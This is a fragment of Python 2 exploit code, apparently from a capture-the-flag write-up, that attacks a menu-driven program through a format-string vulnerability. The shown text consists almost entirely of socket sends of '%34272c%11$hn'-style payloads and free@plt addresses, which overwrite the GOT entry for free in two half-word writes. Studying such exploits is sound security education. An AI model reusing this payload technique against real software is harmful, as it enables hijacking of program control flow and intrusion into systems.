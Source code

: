 ```python
# we need to write the value 0x85e0, which is 34272 
# in decimal
s.send('%34272c%11$hn\n') 
time.sleep(0.05)
print s.recv(512)

# pointer to free@plt
s.send('AA\x14\xb0\x04\x08CCCC\n')
time.sleep(0.05)
print s.recv(512)

# don't care
s.send('666\n')
time.sleep(0.05)
print s.recv(512)

# invoke Show Profit && trigger format string exploit
s.send('4\n')
time.sleep(0.05)
print s.recv(512)
s.send('y\n')

# receive dummy bytes
for i in range(342):
	time.sleep(0.01)
	s.recv(100)
print s.recv(256)

# add mine, supply a string format argument which
# overwrites the last two bytes of free@plt pointer
s.send('1\n')
time.sleep(0.05)
print s.recv(512)

# we need to write the value 0x0804, which is 2052 
# in decimal
s.send('%2052c%11$hn\n') # -> 0x804 in hex
time.sleep(0.05)
print s.recv(512)

# pointer to free@plt+2
s.send('AA\x16\xb0\x04\x08CCCC\n') 
time.sleep(0.05)
print s.recv(512)

# don't care
s.send('666\n')
time.sleep(0.05)
print s.recv(512)

# invoke Show Profit && trigger format string exploit
s.send('4\n')
time.sleep(0.05)
print s.recv(512)
s.send('n\n')
time.sleep(0.05)
print s.recv(512)
s.send('y\n')
time.sleep(0.05)

# receive extra bytes (from the string format exploit)
print s.recv(2400)

```